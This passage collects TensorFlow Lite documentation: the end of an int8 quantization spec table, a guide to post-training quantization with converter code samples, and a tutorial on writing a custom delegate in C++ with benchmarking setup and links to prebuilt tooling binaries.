    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

EQUAL
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

NOT_EQUAL
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

SHAPE
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

QUANTIZE (Requantization)
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
```

## References

[arXiv:1712.05877](https://arxiv.org/abs/1712.05877)
# Post-training quantization

Post-training quantization is a conversion technique that can reduce model size
while also improving CPU and hardware accelerator latency, with little
degradation in model accuracy. You can quantize an already-trained float
TensorFlow model when you convert it to TensorFlow Lite format using the
[TensorFlow Lite Converter](../convert/).

Note: The procedures on this page require TensorFlow 1.15 or higher.

### Optimization Methods

There are several post-training quantization options to choose from. Here is a
summary table of the choices and the benefits they provide:

| Technique            | Benefits                  | Hardware         |
| -------------------- | ------------------------- | ---------------- |
| Dynamic range        | 4x smaller, 2x-3x speedup | CPU              |
: quantization         :                           :                  :
| Full integer         | 4x smaller, 3x+ speedup   | CPU, Edge TPU,   |
: quantization         :                           : Microcontrollers :
| Float16 quantization | 2x smaller, GPU           | CPU, GPU         |
:                      : acceleration              :                  :

The following decision tree can help determine which post-training quantization
method is best for your use case:


### Dynamic range quantization

The simplest form of post-training quantization statically quantizes only the
weights from floating point to integer, which has 8-bits of precision:

<pre>
import tensorflow as tf
converter = tf.lite.TFLiteConverter.from_saved_model(saved_model_dir)
<b>converter.optimizations = [tf.lite.Optimize.DEFAULT]</b>
tflite_quant_model = converter.convert()
</pre>

At inference, weights are converted from 8-bits of precision to floating point
and computed using floating-point kernels. This conversion is done once and
cached to reduce latency.

To further improve latency, "dynamic-range" operators dynamically quantize
activations based on their range to 8-bits and perform computations with 8-bit
weights and activations. This optimization provides latencies close to fully
fixed-point inference. However, the outputs are still stored using floating
point so that the speedup with dynamic-range ops is less than a full fixed-point
computation.

### Full integer quantization

You can get further latency improvements, reductions in peak memory usage, and
compatibility with integer only hardware devices or accelerators by making sure
all model math is integer quantized.

For full integer quantization, you need to calibrate or estimate the range, i.e,
(min, max) of all floating-point tensors in the model. Unlike constant tensors
such as weights and biases, variable tensors such as model input, activations
(outputs of intermediate layers) and model output cannot be calibrated unless we
run a few inference cycles. As a result, the converter requires a representative
dataset to calibrate them. This dataset can be a small subset (around ~100-500
samples) of the training or validation data. Refer to the
`representative_dataset()` function below.

From TensorFlow 2.7 version, you can specify the representative dataset through
a [signature](/lite/guide/signatures) as the following example:

<pre>
def representative_dataset():
  for data in dataset:
    yield {
      "image": data.image,
      "bias": data.bias,
    }
</pre>

If there are more than one signature in the given TensorFlow model, you can
specify the multiple dataset by specifying the signature keys:

<pre>
def representative_dataset():
  # Feed data set for the "encode" signature.
  for data in encode_signature_dataset:
    yield (
      "encode", {
        "image": data.image,
        "bias": data.bias,
      }
    )

  # Feed data set for the "decode" signature.
  for data in decode_signature_dataset:
    yield (
      "decode", {
        "image": data.image,
        "hint": data.hint,
      },
    )
</pre>

You can generate the representative dataset by providing an input tensor list:

<pre>
def representative_dataset():
  for data in tf.data.Dataset.from_tensor_slices((images)).batch(1).take(100):
    yield [tf.dtypes.cast(data, tf.float32)]
</pre>

Since TensorFlow 2.7 version, we recommend using the signature-based approach
over the input tensor list-based approach because the input tensor ordering can
be easily flipped.

For testing purposes, you can use a dummy dataset as follows:

<pre>
def representative_dataset():
    for _ in range(100):
      data = np.random.rand(1, 244, 244, 3)
      yield [data.astype(np.float32)]
 </pre>

#### Integer with float fallback (using default float input/output)

In order to fully integer quantize a model, but use float operators when they
don't have an integer implementation (to ensure conversion occurs smoothly), use
the following steps:

<pre>
import tensorflow as tf
converter = tf.lite.TFLiteConverter.from_saved_model(saved_model_dir)
<b>converter.optimizations = [tf.lite.Optimize.DEFAULT]
converter.representative_dataset = representative_dataset</b>
tflite_quant_model = converter.convert()
</pre>

Note: This `tflite_quant_model` won't be compatible with integer only devices
(such as 8-bit microcontrollers) and accelerators (such as the Coral Edge TPU)
because the input and output still remain float in order to have the same
interface as the original float only model.

#### Integer only

*Creating integer only models is a common use case for
[TensorFlow Lite for Microcontrollers](https://www.tensorflow.org/lite/microcontrollers)
and [Coral Edge TPUs](https://coral.ai/).*

Note: Starting TensorFlow 2.3.0, we support the `inference_input_type` and
`inference_output_type` attributes.

Additionally, to ensure compatibility with integer only devices (such as 8-bit
microcontrollers) and accelerators (such as the Coral Edge TPU), you can enforce
full integer quantization for all ops including the input and output, by using
the following steps:

<pre>
import tensorflow as tf
converter = tf.lite.TFLiteConverter.from_saved_model(saved_model_dir)
converter.optimizations = [tf.lite.Optimize.DEFAULT]
converter.representative_dataset = representative_dataset
<b>converter.target_spec.supported_ops = [tf.lite.OpsSet.TFLITE_BUILTINS_INT8]</b>
<b>converter.inference_input_type = tf.int8</b>  # or tf.uint8
<b>converter.inference_output_type = tf.int8</b>  # or tf.uint8
tflite_quant_model = converter.convert()
</pre>

Note: The converter will throw an error if it encounters an operation it cannot
currently quantize.

### Float16 quantization

You can reduce the size of a floating point model by quantizing the weights to
float16, the IEEE standard for 16-bit floating point numbers. To enable float16
quantization of weights, use the following steps:

<pre>
import tensorflow as tf
converter = tf.lite.TFLiteConverter.from_saved_model(saved_model_dir)
<b>converter.optimizations = [tf.lite.Optimize.DEFAULT]
converter.target_spec.supported_types = [tf.float16]</b>
tflite_quant_model = converter.convert()
</pre>

The advantages of float16 quantization are as follows:

*   It reduces model size by up to half (since all weights become half of their
    original size).
*   It causes minimal loss in accuracy.
*   It supports some delegates (e.g. the GPU delegate) which can operate
    directly on float16 data, resulting in faster execution than float32
    computations.

The disadvantages of float16 quantization are as follows:

*   It does not reduce latency as much as a quantization to fixed point math.
*   By default, a float16 quantized model will "dequantize" the weights values
    to float32 when run on the CPU. (Note that the GPU delegate will not perform
    this dequantization, since it can operate on float16 data.)

### Integer only: 16-bit activations with 8-bit weights (experimental)

This is an experimental quantization scheme. It is similar to the "integer only"
scheme, but activations are quantized based on their range to 16-bits, weights
are quantized in 8-bit integer and bias is quantized into 64-bit integer. This
is referred to as 16x8 quantization further.

The main advantage of this quantization is that it can improve accuracy
significantly, but only slightly increase model size.

<pre>
import tensorflow as tf
converter = tf.lite.TFLiteConverter.from_saved_model(saved_model_dir)
converter.representative_dataset = representative_dataset
<b>converter.optimizations = [tf.lite.Optimize.DEFAULT]
converter.target_spec.supported_ops = [tf.lite.OpsSet.EXPERIMENTAL_TFLITE_BUILTINS_ACTIVATIONS_INT16_WEIGHTS_INT8]</b>
tflite_quant_model = converter.convert()
</pre>

If 16x8 quantization is not supported for some operators in the model,
then the model still can be quantized, but unsupported operators kept in float.
The following option should be added to the target_spec to allow this.
<pre>
import tensorflow as tf
converter = tf.lite.TFLiteConverter.from_saved_model(saved_model_dir)
converter.representative_dataset = representative_dataset
converter.optimizations = [tf.lite.Optimize.DEFAULT]
converter.target_spec.supported_ops = [tf.lite.OpsSet.EXPERIMENTAL_TFLITE_BUILTINS_ACTIVATIONS_INT16_WEIGHTS_INT8,
<b>tf.lite.OpsSet.TFLITE_BUILTINS</b>]
tflite_quant_model = converter.convert()
</pre>

Examples of the use cases where accuracy improvements provided by this
quantization scheme include: * super-resolution, * audio signal processing such
as noise cancelling and beamforming, * image de-noising, * HDR reconstruction
from a single image.

The disadvantage of this quantization is:

*   Currently inference is noticeably slower than 8-bit full integer due to the
    lack of optimized kernel implementation.
*   Currently it is incompatible with the existing hardware accelerated TFLite
    delegates.

Note: This is an experimental feature.

A tutorial for this quantization mode can be found
[here](post_training_integer_quant_16x8.ipynb).

### Model accuracy

Since weights are quantized post training, there could be an accuracy loss,
particularly for smaller networks. Pre-trained fully quantized models are
provided for specific networks in the
[TensorFlow Lite model repository](../models/). It is important to check the
accuracy of the quantized model to verify that any degradation in accuracy is
within acceptable limits. There are tools to evaluate
[TensorFlow Lite model accuracy](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks){:.external}.


Alternatively, if the accuracy drop is too high, consider using
[quantization aware training](https://www.tensorflow.org/model_optimization/guide/quantization/training)
. However, doing so requires modifications during model training to add fake
quantization nodes, whereas the post-training quantization techniques on this
page use an existing pre-trained model.

### Representation for quantized tensors

8-bit quantization approximates floating point values using the following
formula.

$$real\_value = (int8\_value - zero\_point) \times scale$$

The representation has two main parts:

*   Per-axis (aka per-channel) or per-tensor weights represented by int8 two’s
    complement values in the range [-127, 127] with zero-point equal to 0.

*   Per-tensor activations/inputs represented by int8 two’s complement values in
    the range [-128, 127], with a zero-point in range [-128, 127].

For a detailed view of our quantization scheme, please see our
[quantization spec](./quantization_spec.md). Hardware vendors who want to plug
into TensorFlow Lite's delegate interface are encouraged to implement the
quantization scheme described there.
# Implementing a Custom Delegate

[TOC]

## What is a TensorFlow Lite Delegate?

A TensorFlow Lite
[Delegate](https://www.tensorflow.org/lite/performance/delegates) allows you to
run your models (part or whole) on another executor. This mechanism can leverage
a variety of on-device accelerators such as the GPU or Edge TPU (Tensor
Processing Unit) for inference. This provides developers a flexible and
decoupled method from the default TFLite to speed up inference.

Diagram below summarizes the delegates, more details in the below sections.


## When should I create a Custom delegate?

TensorFlow Lite has a wide variety of delegates for target accelerators such as
GPU, DSP, EdgeTPU and frameworks like Android NNAPI.

Creating your own delegate is useful in the following scenarios:

*   You want to integrate a new ML inference engine not supported by any
    existing delegate.
*   You have a custom hardware accelerator that improves runtime for known
    scenarios.
*   You are developing CPU optimizations (such as operator fusing) that can
    speed up certain models.

## How do delegates work?

Consider a simple model graph such as the following, and a delegate “MyDelegate”
that has a faster implementation for Conv2D and Mean operations.


After applying this “MyDelegate”, the original TensorFlow Lite graph will be
updated like the following:


The graph above is obtained as TensorFlow Lite splits the original graph
following two rules:

*   Specific operations that could be handled by the delegate are put into a
    partition while still satisfying the original computing workflow
    dependencies among operations.
*   Each to-be-delegated partition only has input and output nodes that are not
    handled by the delegate.

Each partition that is handled by a delegate is replaced by a delegate node (can
also be called as a delegate kernel) in the original graph that evaluates the
partition on its invoke call.

Depending on the model, the final graph can end up with one or more nodes, the
latter meaning that some ops are not supported by the delegate. In general, you
don’t want to have multiple partitions handled by the delegate, because each
time you switch from delegate to the main graph, there is an overhead for
passing the results from the delegated subgraph to the main graph that results
due to memory copies (for example, GPU to CPU). Such overhead might offset
performance gains especially when there are a large amount of memory copies.

## Implementing your own Custom delegate

The preferred method to add a delegate is using
[SimpleDelegate API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/utils/simple_delegate.h).

To create a new delegate, you need to implement 2 interfaces and provide your
own implementation for the interface methods.

### 1 - `SimpleDelegateInterface`

This class represents the capabilities of the delegate, which operations are
supported, and a factory class for creating a kernel which encapsulates the
delegated graph. For more details, see the interface defined in this
[C++ header file](https://github.com/tensorflow/tensorflow/blob/8a643858ce174b8bd1b4bb8fa4bfaa62f7e8c45f/tensorflow/lite/delegates/utils/simple_delegate.h#L71).
The comments in the code explain each API in detail.

### 2 - `SimpleDelegateKernelInterface`

This class encapsulates the logic for initializing / preparing / and running the
delegated partition.

It has: (See
[definition](https://github.com/tensorflow/tensorflow/blob/8a643858ce174b8bd1b4bb8fa4bfaa62f7e8c45f/tensorflow/lite/delegates/utils/simple_delegate.h#L43))

*   Init(...): which will be called once to do any one-time initialization.
*   Prepare(...): called for each different instance of this node - this happens
    if you have multiple delegated partitions. Usually you want to do memory
    allocations here, since this will be called everytime tensors are resized.
*   Invoke(...): which will be called for inference.

### Example

In this example, you will create a very simple delegate that can support only 2
types of operations (ADD) and (SUB) with float32 tensors only.

```
// MyDelegate implements the interface of SimpleDelegateInterface.
// This holds the Delegate capabilities.
class MyDelegate : public SimpleDelegateInterface {
 public:
  bool IsNodeSupportedByDelegate(const TfLiteRegistration* registration,
                                 const TfLiteNode* node,
                                 TfLiteContext* context) const override {
    // Only supports Add and Sub ops.
    if (kTfLiteBuiltinAdd != registration->builtin_code &&
        kTfLiteBuiltinSub != registration->builtin_code)
      return false;
    // This delegate only supports float32 types.
    for (int i = 0; i < node->inputs->size; ++i) {
      auto& tensor = context->tensors[node->inputs->data[i]];
      if (tensor.type != kTfLiteFloat32) return false;
    }
    return true;
  }

  TfLiteStatus Initialize(TfLiteContext* context) override { return kTfLiteOk; }

  const char* Name() const override {
    static constexpr char kName[] = "MyDelegate";
    return kName;
  }

  std::unique_ptr<SimpleDelegateKernelInterface> CreateDelegateKernelInterface()
      override {
    return std::make_unique<MyDelegateKernel>();
  }
};
```

Next, create your own delegate kernel by inheriting from the
`SimpleDelegateKernelInterface`

```
// My delegate kernel.
class MyDelegateKernel : public SimpleDelegateKernelInterface {
 public:
  TfLiteStatus Init(TfLiteContext* context,
                    const TfLiteDelegateParams* params) override {
    // Save index to all nodes which are part of this delegate.
    inputs_.resize(params->nodes_to_replace->size);
    outputs_.resize(params->nodes_to_replace->size);
    builtin_code_.resize(params->nodes_to_replace->size);
    for (int i = 0; i < params->nodes_to_replace->size; ++i) {
      const int node_index = params->nodes_to_replace->data[i];
      // Get this node information.
      TfLiteNode* delegated_node = nullptr;
      TfLiteRegistration* delegated_node_registration = nullptr;
      TF_LITE_ENSURE_EQ(
          context,
          context->GetNodeAndRegistration(context, node_index, &delegated_node,
                                          &delegated_node_registration),
          kTfLiteOk);
      inputs_[i].push_back(delegated_node->inputs->data[0]);
      inputs_[i].push_back(delegated_node->inputs->data[1]);
      outputs_[i].push_back(delegated_node->outputs->data[0]);
      builtin_code_[i] = delegated_node_registration->builtin_code;
    }
    return kTfLiteOk;
  }

  TfLiteStatus Prepare(TfLiteContext* context, TfLiteNode* node) override {
    return kTfLiteOk;
  }

  TfLiteStatus Eval(TfLiteContext* context, TfLiteNode* node) override {
    // Evaluate the delegated graph.
    // Here we loop over all the delegated nodes.
    // We know that all the nodes are either ADD or SUB operations and the
    // number of nodes equals ''inputs_.size()'' and inputs[i] is a list of
    // tensor indices for inputs to node ''i'', while outputs_[i] is the list of
    // outputs for node
    // ''i''. Note, that it is intentional we have simple implementation as this
    // is for demonstration.

    for (int i = 0; i < inputs_.size(); ++i) {
      // Get the node input tensors.
      // Add/Sub operation accepts 2 inputs.
      auto& input_tensor_1 = context->tensors[inputs_[i][0]];
      auto& input_tensor_2 = context->tensors[inputs_[i][1]];
      auto& output_tensor = context->tensors[outputs_[i][0]];
      TF_LITE_ENSURE_EQ(
          context,
          ComputeResult(context, builtin_code_[i], &input_tensor_1,
                        &input_tensor_2, &output_tensor),
          kTfLiteOk);
    }
    return kTfLiteOk;
  }

 private:
  // Computes the result of addition of 'input_tensor_1' and 'input_tensor_2'
  // and store the result in 'output_tensor'.
  TfLiteStatus ComputeResult(TfLiteContext* context, int builtin_code,
                             const TfLiteTensor* input_tensor_1,
                             const TfLiteTensor* input_tensor_2,
                             TfLiteTensor* output_tensor) {
    if (NumElements(input_tensor_1) != NumElements(input_tensor_2) ||
        NumElements(input_tensor_1) != NumElements(output_tensor)) {
      return kTfLiteDelegateError;
    }
    // This code assumes no activation, and no broadcasting needed (both inputs
    // have the same size).
    auto* input_1 = GetTensorData<float>(input_tensor_1);
    auto* input_2 = GetTensorData<float>(input_tensor_2);
    auto* output = GetTensorData<float>(output_tensor);
    for (int i = 0; i < NumElements(input_tensor_1); ++i) {
      if (builtin_code == kTfLiteBuiltinAdd)
        output[i] = input_1[i] + input_2[i];
      else
        output[i] = input_1[i] - input_2[i];
    }
    return kTfLiteOk;
  }

  // Holds the indices of the input/output tensors.
  // inputs_[i] is list of all input tensors to node at index 'i'.
  // outputs_[i] is list of all output tensors to node at index 'i'.
  std::vector<std::vector<int>> inputs_, outputs_;
  // Holds the builtin code of the ops.
  // builtin_code_[i] is the type of node at index 'i'
  std::vector<int> builtin_code_;
};


```

## Benchmark and evaluate the new delegate

TFLite has a set of tools that you can quickly test against a TFLite model.

*   [Model Benchmark Tool](https://github.com/tensorflow/tensorflow/tree/f9ef3a8a0b64ad6393785f3259e9a24af09c84ad/tensorflow/lite/tools/benchmark):
    The tool takes a TFLite model, generates random inputs, and then repeatedly
    runs the model for a specified number of runs. It prints aggregated latency
    statistics at the end.
*   [Inference Diff Tool](https://github.com/tensorflow/tensorflow/tree/f9ef3a8a0b64ad6393785f3259e9a24af09c84ad/tensorflow/lite/tools/evaluation/tasks/inference_diff):
    For a given model, the tool generates random Gaussian data and passes it
    through two different TFLite interpreters, one running single threaded CPU
    kernel and the other using a user-defined spec. It measures the absolute
    difference between the output tensors from each interpreter, on a
    per-element basis. This tool can also be helpful for debugging accuracy
    issues.
*   There are also task specific evaluation tools, for image classification and
    object detection. These tools can be found
    [here](https://www.tensorflow.org/lite/performance/delegates#tools_for_evaluation)

In addition, TFLite has a large set of kernel and op unit tests that could be
reused to test the new delegate with more coverage and to ensure the regular
TFLite execution path is not broken.

To achieve reusing TFLite tests and tooling for the new delegate, you can use
either of the following two options:

*   Utilize the
    [delegate registrar](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates)
    mechanism.
*   Utilize the
    [external delegate](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/external)
    mechanism.

### Choosing the best approach

Both approaches require a few changes as detailed below. However, the first
approach links the delegate statically and requires rebuilding the testing,
benchmarking and evaluation tools. In contrast, the second one makes the
delegate as a shared library and requires you to expose the create/delete
methods from the shared library.

As a result, the external-delegate mechanism will work with TFLite’s
[pre-built Tensorflow Lite tooling binaries](#download-links-for-nightly-pre-built-tflite-tooling-binaries).
But it is less explicit and it might be more complicated to set up in automated
integration tests. Use the delegate registrar approach for better clarity.

### Option 1: Leverage delegate registrar

The
[delegate registrar](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates)
keeps a list of delegate providers, each of which provides an easy way to create
TFLite delegates based on command-line flags, and are hence, convenient for
tooling. To plug in the new delegate to all the Tensorflow Lite tools mentioned
above, you first create a new delegate provider like this
[one](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/delegates/hexagon_delegate_provider.cc),
and then makes only a few changes to the BUILD rules. A full example of this
integration process is shown below (and code can be found
[here](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/utils/dummy_delegate)).

Assuming you have a delegate that implements the SimpleDelegate APIs, and the
extern "C" APIs of creating/deleting this 'dummy' delegate as shown below:

```
// Returns default options for DummyDelegate.
DummyDelegateOptions TfLiteDummyDelegateOptionsDefault();

// Creates a new delegate instance that need to be destroyed with
// `TfLiteDummyDelegateDelete` when delegate is no longer used by TFLite.
// When `options` is set to `nullptr`, the above default values are used:
TfLiteDelegate* TfLiteDummyDelegateCreate(const DummyDelegateOptions* options);

// Destroys a delegate created with `TfLiteDummyDelegateCreate` call.
void TfLiteDummyDelegateDelete(TfLiteDelegate* delegate);
```

To integrate the “DummyDelegate” with Benchmark Tool and Inference Tool, define
a DelegateProvider like below:

```
class DummyDelegateProvider : public DelegateProvider {
 public:
  DummyDelegateProvider() {
    default_params_.AddParam("use_dummy_delegate",
                             ToolParam::Create<bool>(false));
  }

  std::vector<Flag> CreateFlags(ToolParams* params) const final;

  void LogParams(const ToolParams& params) const final;

  TfLiteDelegatePtr CreateTfLiteDelegate(const ToolParams& params) const final;

  std::string GetName() const final { return "DummyDelegate"; }
};
REGISTER_DELEGATE_PROVIDER(DummyDelegateProvider);

std::vector<Flag> DummyDelegateProvider::CreateFlags(ToolParams* params) const {
  std::vector<Flag> flags = {CreateFlag<bool>("use_dummy_delegate", params,
                                              "use the dummy delegate.")};
  return flags;
}

void DummyDelegateProvider::LogParams(const ToolParams& params) const {
  TFLITE_LOG(INFO) << "Use dummy test delegate : ["
                   << params.Get<bool>("use_dummy_delegate") << "]";
}

TfLiteDelegatePtr DummyDelegateProvider::CreateTfLiteDelegate(
    const ToolParams& params) const {
  if (params.Get<bool>("use_dummy_delegate")) {
    auto default_options = TfLiteDummyDelegateOptionsDefault();
    return TfLiteDummyDelegateCreateUnique(&default_options);
  }
  return TfLiteDelegatePtr(nullptr, [](TfLiteDelegate*) {});
}

```

The BUILD rule definitions are important as you need to make sure that the
library is always linked and not dropped by optimizer.

```
#### The following are for using the dummy test delegate in TFLite tooling ####
cc_library(
    name = "dummy_delegate_provider",
    srcs = ["dummy_delegate_provider.cc"],
    copts = tflite_copts(),
    deps = [
        ":dummy_delegate",
        "//tensorflow/lite/tools/delegates:delegate_provider_hdr",
    ],
    alwayslink = 1, # This is required so the optimizer doesn't optimize the library away.
)
```

Now add these two wrapper rules in your BUILD file to create a version of
Benchmark Tool and Inference Tool, and other evaluation tools, that could run
with your own delegate.

```
cc_binary(
    name = "benchmark_model_plus_dummy_delegate",
    copts = tflite_copts(),
    linkopts = task_linkopts(),
    deps = [
        ":dummy_delegate_provider",
        "//tensorflow/lite/tools/benchmark:benchmark_model_main",
    ],
)

cc_binary(
    name = "inference_diff_plus_dummy_delegate",
    copts = tflite_copts(),
    linkopts = task_linkopts(),
    deps = [
        ":dummy_delegate_provider",
        "//tensorflow/lite/tools/evaluation/tasks:task_executor_main",
        "//tensorflow/lite/tools/evaluation/tasks/inference_diff:run_eval_lib",
    ],
)

cc_binary(
    name = "imagenet_classification_eval_plus_dummy_delegate",
    copts = tflite_copts(),
    linkopts = task_linkopts(),
    deps = [
        ":dummy_delegate_provider",
        "//tensorflow/lite/tools/evaluation/tasks:task_executor_main",
        "//tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification:run_eval_lib",
    ],
)

cc_binary(
    name = "coco_object_detection_eval_plus_dummy_delegate",
    copts = tflite_copts(),
    linkopts = task_linkopts(),
    deps = [
        ":dummy_delegate_provider",
        "//tensorflow/lite/tools/evaluation/tasks:task_executor_main",
        "//tensorflow/lite/tools/evaluation/tasks/coco_object_detection:run_eval_lib",
    ],
)
```

You can also plug in this delegate provider to TFLite kernel tests as described
[here](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/utils/dummy_delegate/README.md#kernel-tests).

### Option 2: Leverage external delegate

In this alternative, you first create an external delegate adaptor the
[external\_delegate\_adaptor.cc](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/utils/dummy_delegate/external_delegate_adaptor.cc)
as shown below. Note, this approach is slightly less preferred as compared to
Option 1 as has been [aforementioned](#comparison-between-the-two-options).

```
TfLiteDelegate* CreateDummyDelegateFromOptions(char** options_keys,
                                               char** options_values,
                                               size_t num_options) {
  DummyDelegateOptions options = TfLiteDummyDelegateOptionsDefault();

  // Parse key-values options to DummyDelegateOptions.
  // You can achieve this by mimicking them as command-line flags.
  std::unique_ptr<const char*> argv =
      std::unique_ptr<const char*>(new const char*[num_options + 1]);
  constexpr char kDummyDelegateParsing[] = "dummy_delegate_parsing";
  argv.get()[0] = kDummyDelegateParsing;

  std::vector<std::string> option_args;
  option_args.reserve(num_options);
  for (int i = 0; i < num_options; ++i) {
    option_args.emplace_back("--");
    option_args.rbegin()->append(options_keys[i]);
    option_args.rbegin()->push_back('=');
    option_args.rbegin()->append(options_values[i]);
    argv.get()[i + 1] = option_args.rbegin()->c_str();
  }

  // Define command-line flags.
  // ...
  std::vector<tflite::Flag> flag_list = {
      tflite::Flag::CreateFlag(...),
      ...,
      tflite::Flag::CreateFlag(...),
  };

  int argc = num_options + 1;
  if (!tflite::Flags::Parse(&argc, argv.get(), flag_list)) {
    return nullptr;
  }

  return TfLiteDummyDelegateCreate(&options);
}

#ifdef __cplusplus
extern "C" {
#endif  // __cplusplus

// Defines two symbols that need to be exported to use the TFLite external
// delegate. See tensorflow/lite/delegates/external for details.
TFL_CAPI_EXPORT TfLiteDelegate* tflite_plugin_create_delegate(
    char** options_keys, char** options_values, size_t num_options,
    void (*report_error)(const char*)) {
  return tflite::tools::CreateDummyDelegateFromOptions(
      options_keys, options_values, num_options);
}

TFL_CAPI_EXPORT void tflite_plugin_destroy_delegate(TfLiteDelegate* delegate) {
  TfLiteDummyDelegateDelete(delegate);
}

#ifdef __cplusplus
}
#endif  // __cplusplus
```

Now create the corresponding BUILD target to build a dynamic library as shown
below:

```
cc_binary(
    name = "dummy_external_delegate.so",
    srcs = [
        "external_delegate_adaptor.cc",
    ],
    linkshared = 1,
    linkstatic = 1,
    deps = [
        ":dummy_delegate",
        "//tensorflow/lite/c:common",
        "//tensorflow/lite/tools:command_line_flags",
        "//tensorflow/lite/tools:logging",
    ],
)
```

After this external delegate .so file is created, you can build binaries or use
pre-built ones to run with the new delegate as long as the binary is linked with
the
[external\_delegate\_provider](https://github.com/tensorflow/tensorflow/blob/8c6f2d55762f3fc94f98fdd8b3c5d59ee1276dba/tensorflow/lite/tools/delegates/BUILD#L145-L159)
library which supports command-line flags as described
[here](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates#external-delegate-provider).
Note: this external delegate provider has already been linked to existing
testing and tooling binaries.

Refer to descriptions
[here](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/utils/dummy_delegate/README.md#option-2-utilize-tensorflow-lite-external-delegate)
for an illustration of how to benchmark the dummy delegate via this
external-delegate approach. You can use similar commands for the testing and
evaluation tools mentioned earlier.

It is worth noting the _external delegate_ is the corresponding C++
implementation of the _delegate_ in Tensorflow Lite Python binding as shown
[here](https://github.com/tensorflow/tensorflow/blob/7145fc0e49be01ef6943f4df386ce38567e37797/tensorflow/lite/python/interpreter.py#L42).
Therefore, the dynamic external delegate adaptor library created here could be
directly used with Tensorflow Lite Python APIs.

## Resources

### Download links for nightly pre-built TFLite tooling binaries

<table>
  <tr>
   <td>OS
   </td>
   <td>ARCH
   </td>
   <td>BINARY_NAME
   </td>
  </tr>
  <tr>
   <td rowspan="3" >Linux
   </td>
   <td>x86_64
   </td>
   <td><ul>

<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_x86-64_benchmark_model">benchmark_model</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_x86-64_eval_inference_diff">inference_diff</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_x86-64_eval_imagenet_image_classification">imagenet_image_classification_eval</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_x86-64_eval_coco_object_detection">coco_object_detection_eval</a></li></ul>

   </td>
  </tr>
  <tr>
   <td>arm
   </td>
   <td><ul>

<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_arm_benchmark_model">benchmark_model</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_arm_eval_inference_diff">inference_diff</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_arm_eval_imagenet_image_classification">imagenet_image_classification_eval</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_arm_eval_coco_object_detection">coco_object_detection_eval</a></li></ul>

   </td>
  </tr>
  <tr>
   <td>aarch64
   </td>
   <td><ul>

<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_aarch64_benchmark_model">benchmark_model</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_aarch64_eval_inference_diff">inference_diff</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_aarch64_eval_imagenet_image_classification">imagenet_image_classification_eval</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_aarch64_eval_coco_object_detection">coco_object_detection_eval</a></li></ul>

   </td>
  </tr>
  <tr>
   <td rowspan="2" >Android
   </td>
   <td>arm
   </td>
   <td><ul>

<li><a href="http://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_benchmark_model">benchmark_model</a>
<li><strong><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_benchmark_model.apk">benchmark_model.apk</a></strong>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_eval_inference_diff">inference_diff</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_eval_imagenet_image_classification">imagenet_image_classification_eval</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_eval_coco_object_detection">coco_object_detection_eval</a></li></ul>

   </td>
  </tr>
  <tr>
   <td>aarch64
   </td>
   <td><ul>

<li><a href="http://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_benchmark_model">benchmark_model</a>
<li><strong><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_benchmark_model.apk">benchmark_model.apk</a></strong>
